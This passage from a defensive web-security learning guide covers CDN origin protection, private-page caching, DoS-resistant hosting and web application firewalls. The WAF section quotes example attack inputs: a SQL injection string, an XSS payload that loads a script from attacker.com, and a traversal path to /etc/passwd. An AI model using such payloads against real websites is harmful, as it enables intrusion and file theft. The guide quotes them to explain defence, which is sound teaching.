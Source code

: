 One important caveat of using a CDN to protect your website from DoS attacks is that it is imperative that you restrict traffic to your origin web servers. Let’s say that your web site, served through a CDN, uses the hostname [www.example.com](http://www.example.com), and you use origin.example.com for your “real” origin web server. If an attacker launches a DoS attack against origin.example.com, they will completely bypass the CDN, and your site will receive no benefit. Instead, origin web servers should have IP address restrictions in place at the network level (e.g. via a firewall), or ideally be completely cut off from the Internet and only accessible via a VPN.

Additionally, there are certain misconfigurations that can cause a CDN edge server to not recognize static vs dynamic content. For example, if a website has a web page like [www.example.com/profile](http://www.example.com/profile), the CDN doesn’t automatically know that the page contains private information. The most standard way to work around this is to configure the CDN to cache based on response headers and then set a `Cache-Control` header whose value is `private` or similar. This will tell the CDN that the page contains private information, and to not give the same content to different users. The specifics of how this is configured and used will vary between CDN providers, so be sure to consult your provider’s documentation before setting up a CDN. It’s also a good idea to have a pre-release site that’s configured with the same CDN and settings as the production site. In this way, site managers can check major changes before going live.

### DoS resistant hosting

Some providers combine web hosting with DoS resistance. Generally they have some of the same sort of technologies and practices that CDN providers use but bundled with web hosting. This avoids the issue above of protecting origin servers but depends on the provider providing both the protection and hosting services you need. Examples of DoS resistant hosting providers include [Qurium](https://www.qurium.org/secure-hosting/) and [Greenhost](https://greenhost.net/internet-freedom/).

### Limitations of DoS resistant CDN and hosting providers

You may have noted that the protection provided by DoS resistant CDN and hosting providers covers the majority of attacks, but the above material left out application-level attacks. There may be flaws in a website that allow DoS attacks with very low volumes. Standard defenses against DoS attacks are not effective in this case. That said, support and rapid response personnel at CDN and hosting providers may be able to help support web site owners in the event that there is an active application-level DoS attack against their website.

Defending against application-level attacks is covered in more depth in the DoS Incident Response subtopic (subtopic 3 in this learning path).

## Using Web Application Firewalls

WAFs (web application firewalls) are network devices that sit in between an end user and a website’s origin server, like a CDN. While a CDN provides protection against DoS attacks, a WAF attempts to protect against hacking attacks. They will inspect incoming requests and block ones that look malicious, for example parameters containing things like `' or 1=1;--` (SQL injection), `">&lt;script src="http://attacker.com/payload.js">&lt;z a="` (XSS), or `../../../../../../etc/passwd` (directory traversal). While no WAF can provide perfect protection against hacking, they may be effective enough to protect a site from compromise, and almost always make the attacker’s job of identifying vulnerabilities more difficult. In most cases, a good WAF will not disrupt legitimate content, but it is possible for them to do so. For example, if a site was a discussion forum talking about secure web development, a WAF would likely block legitimate posts about attack techniques. As with CDNs, it’s a very good idea to have a pre-release site where changes can be tested before they go live.
